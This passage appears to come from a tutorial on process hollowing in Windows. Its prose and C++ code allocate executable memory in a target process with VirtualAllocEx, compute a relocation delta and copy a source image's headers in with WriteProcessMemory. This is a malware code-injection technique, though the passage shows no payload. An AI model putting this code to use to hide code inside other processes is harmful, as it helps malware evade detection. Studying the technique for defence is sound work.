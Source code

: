 Next, a new block of memory is allocated for the source image. The size of the block is determined by the SizeOfImage member of the source images optional header. For the sake of simplicity the entire block is flagged as PAGE_EXECUTE_READWRITE, but this could be improved upon by allocating each portable executable section with the appropriate flags based on the characteristics specified in the section header.

```cpp
printf("Allocating memory\r\n");
 
PVOID pRemoteImage = VirtualAllocEx
(
      pProcessInfo->hProcess,
      pPEB->ImageBaseAddress,
      pSourceHeaders->OptionalHeader.SizeOfImage,
      MEM_COMMIT | MEM_RESERVE,
      PAGE_EXECUTE_READWRITE
);
 
if (!pRemoteImage)
{
      printf("VirtualAllocEx call failed\r\n");
      return;
}
```
 
## Copying The Source Image
Now that memory has been allocated for the new image it must be copied to the process memory.  For the hollowing to work, the image base stored within the optional header of the source image must be set to the destination image base address. However, before setting it the difference between the two base addresses must be calculated for use in rebasing. Once the optional header is fixed up, the image is copied to the process via WriteProcessMemory starting with its portable executable headers. Following that, the data of each section is copied. 

```cpp
DWORD dwDelta = (DWORD)pPEB->ImageBaseAddress -
      pSourceHeaders->OptionalHeader.ImageBase;
 
printf
(
      "Source image base: 0x%p\r\n"
      "Destination image base: 0x%p\r\n",
      pSourceHeaders->OptionalHeader.ImageBase,
      pPEB->ImageBaseAddress
);
 
printf("Relocation delta: 0x%p\r\n", dwDelta);
 
pSourceHeaders->OptionalHeader.ImageBase = (DWORD)pPEB->ImageBaseAddress;
 
printf("Writing headers\r\n");
 
if (!WriteProcessMemory
(
      pProcessInfo->hProcess,                        
      pPEB->ImageBaseAddress,
      pBuffer,
      pSourceHeaders->OptionalHeader.SizeOfHeaders,
      0
))
{
      printf("Error writing process memory\r\n");
 
      return;
}
```